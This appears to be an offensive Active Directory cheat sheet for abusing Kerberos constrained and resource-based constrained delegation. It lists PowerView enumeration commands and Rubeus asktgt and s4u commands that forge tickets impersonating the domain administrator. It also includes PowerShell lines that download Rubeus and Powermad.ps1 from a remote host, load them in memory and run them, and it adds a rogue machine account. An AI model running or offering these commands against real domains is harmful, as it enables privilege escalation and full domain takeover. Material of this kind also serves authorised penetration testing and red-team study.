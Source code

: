 Get constrained delegation computers

```powershell
Get-DomainComputer -TrustedToAuth

-Domain d.com (optional to enum other domains in forest)
```

Generate a TGT for a user

```plaintext
.\Rubeus.exe asktgt /user:iissvc /domain:x.com /rc4:<hash>
```

S4U Constrained Delegation generate ticket for any domain user

```plaintext
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/dc01.domain.com:1433 /ptt
```

S4U Constrained Delegation generate ticket for any domain user for a alternative service on the same host

```plaintext
.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/dc01.domain.com:1433 /altservice:CIFS /ptt
```

PowerShell Remotely load rubeus

```plaintext
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.1/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("purge".Split())
[Rubeus.Program]::Main("s4u /user:host$ /rc4:x /impersonateuser:administrator /msdsspn:cifs/host$ /ptt".Split())
ls \\host\c$
```

## Resource-Based Constrained Delegation

Get GenericWrite computers

```powershell
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

Get machine quota in the domain

```powershell
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota
```

Add computer using PowerMad

```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/Powermad.ps1') | IEX

New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
```
